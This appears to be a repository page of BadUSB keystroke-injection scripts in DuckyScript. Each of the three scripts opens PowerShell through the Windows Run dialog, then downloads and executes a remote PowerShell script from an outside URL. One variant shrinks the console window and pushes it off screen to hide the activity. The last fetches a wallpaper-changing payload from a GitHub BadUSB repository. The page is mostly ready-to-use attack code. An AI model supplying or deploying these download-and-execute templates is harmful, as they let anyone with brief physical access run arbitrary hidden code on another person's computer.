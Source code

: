 Code

    LED 0 0 0
    DELAY 1000
    GUI r
    DELAY 100
    STRING powershell.exe
    ENTER
    DELAY 1000
    STRING $ScriptFromGithHub = Invoke-WebRequest https://example.com/powershellScript.ps1
    ENTER
    DELAY 500
    STRING Invoke-Expression $($ScriptFromGithHub.Content)
    ENTER
    STRING exit
    ENTER
    LED 0 0 255

Code + Hide Powershell Window

    LED 0 0 0
    DELAY 1000
    GUI r
    DELAY 100
    STRING powershell.exe
    ENTER
    DELAY 1000
    REM Once powershell is up and running, hide the console
    ALT SPACE
    STRING m
    LEFTARROW
    REPEAT 50 
    STRING [console]::WindowHeight=1 
    ENTER
    STRING [console]::WindowWidth=1 
    ENTER
    DELAY 1000
    STRING $ScriptFromGithHub = Invoke-WebRequest https://example.com/powershellScript.ps1
    ENTER
    DELAY 500
    STRING Invoke-Expression $($ScriptFromGithHub.Content)
    ENTER
    STRING exit
    ENTER
    LED 0 0 255


Example Change wallpaper

    LED 0 0 0
    DELAY 1000
    GUI r
    DELAY 100
    STRING powershell.exe
    ENTER
    DELAY 1000
    STRING $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/offport/BadUSB/main/Windows/Payloads/ChangeWallpaper.ps1
    ENTER
    DELAY 500
    STRING Invoke-Expression $($ScriptFromGithHub.Content)
    ENTER
    STRING exit
    ENTER
    LED 0 0 255
